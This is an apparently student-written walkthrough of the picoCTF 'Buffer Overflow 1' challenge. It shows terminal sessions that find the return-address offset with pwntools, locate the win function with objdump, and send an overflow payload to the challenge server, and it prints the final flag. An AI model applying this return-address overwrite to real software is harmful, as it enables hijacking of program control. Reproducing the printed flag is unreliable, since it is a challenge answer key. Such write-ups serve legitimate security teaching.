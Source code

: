 # Buffer Overflow 1

# Descripción
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 60597`
# Pistas
Make sure you consider big Endian vs small Endian.

Changing the address of the return pointer can call different functions.
# Solución

```bash
┌──(kali㉿kali)-[~/SegRedySis]
└─$ chmod +x vuln
┌──(kali㉿kali)-[~/SegRedySis]
└─$ echo 'aaaaaaaaaaaaaaaa' | ./vuln                                                                
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
┌──(kali㉿kali)-[~/SegRedySis]
└─$ python          
Python 3.8.13 (default, Mar 28 2022, 11:38:47) 
[GCC 7.5.0] :: Anaconda, Inc. on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> exit()

┌──(kali㉿kali)-[~/SegRedySis]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'| ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln

┌──(kali㉿kali)-[~/SegRedySis]
└─$ python
Python 3.8.13 (default, Mar 28 2022, 11:38:47) 
[GCC 7.5.0] :: Anaconda, Inc. on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic_find(0x6161616c)
44
>>> 'E'*44
'EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE'
>>> exit()

┌──(kali㉿kali)-[~/SegRedySis]
└─$ objdump -D vuln -M intel | grep 'win' 
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>

┌──(kali㉿kali)-[~/SegRedySis]
└─$ python
Python 3.8.13 (default, Mar 28 2022, 11:38:47) 
[GCC 7.5.0] :: Anaconda, Inc. on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
exit()

┌──(kali㉿kali)-[~/SegRedySis]
└─$ echo 'EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE\xf6\x91\x04\x08' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.

┌──(kali㉿kali)-[~/SegRedySis]
└─$ touch flag.txt                                                                                                        

┌──(kali㉿kali)-[~/SegRedySis]
└─$ echo 'EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE\xf6\x91\x04\x08' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
d@*���=���d�<����EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE�EEEEEEEEEEEEzsh: done                echo 'EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE\xf6\x91\x04\x08' | 
zsh: segmentation fault  ./vuln

┌──(kali㉿kali)-[~/SegRedySis]
└─$ echo 'EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE\xf6\x91\x04\x08' | nc saturn.picoctf.net 57864
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f} 

```

# Bandera
picoCTF{addr3ss3s_ar3_3asy_0195a40f} 
